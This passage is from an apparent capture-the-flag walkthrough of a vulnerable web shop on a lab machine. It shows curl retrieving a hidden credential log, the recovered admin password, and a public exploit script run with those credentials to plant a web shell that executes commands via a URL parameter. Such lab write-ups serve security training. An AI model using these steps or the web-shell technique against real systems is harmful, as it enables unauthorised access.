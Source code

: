 ```
$ ll
total 60
drwxr-xr-x 24 kali kali  4096 Sep  3  2020 admin
drwxr-xr-x  2 kali kali  4096 May 28  2020 cache
drwxr-xr-x  2 kali kali  4096 May 28  2020 data
drwxr-xr-x  7 kali kali  4096 May 14  2018 ext
-rw-r--r--  1 kali kali 15086 May 28  2020 favicon.ico
drwxr-xr-x 10 kali kali  4096 May 28  2020 images
drwxr-xr-x 11 kali kali  4096 May 28  2020 includes
-rw-r--r--  1 kali kali  2508 May 14  2018 index.php
drwxr-xr-x  2 kali kali  4096 May 28  2020 logs
drwxr-xr-x  4 kali kali  4096 May 14  2018 pages
-rw-r--r--  1 kali kali    71 May 28  2020 robots.txt
drwxr-xr-x  4 kali kali  4096 May 29  2020 vqmod
```

We can look at the `/admin` directory first. Within the `login.php` file, we can find a hidden directory:

```php
if (isset($_POST['login'])) {
    //file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password']);
    user::login($_POST['username'], $_POST['password'], $redirect_url, isset($_POST['remember_me']) ? $_POST['remember_me'] : false);
  }
```

Within the .txt file, we can find credentials:

```
$ curl http://10.129.71.208/shop/admin/.log2301c9430d8593ae.txt
User: admin Passwd: theNextGenSt0r3!~
```

Now that we have credentials, we can login at `/shop/admin`. Within the dashboard, we can find the version that is in use:

<figure><img src="../../../.gitbook/assets/image (637).png" alt=""><figcaption></figcaption></figure>

So this version is indeed vulnerable to the LFI we found earlier.&#x20;

### File Upload --> SQL Injection

When trying the PoC, we can see that the file uploaded, but it was not executing:

```
$ python 45267.py -t http://10.129.71.208/shop/admin/ -u admin -p 'theNextGenSt0r3!~' 
Shell => http://10.129.71.208/shop/admin/../vqmod/xml/KQ7KN.php?c=id
b''
```

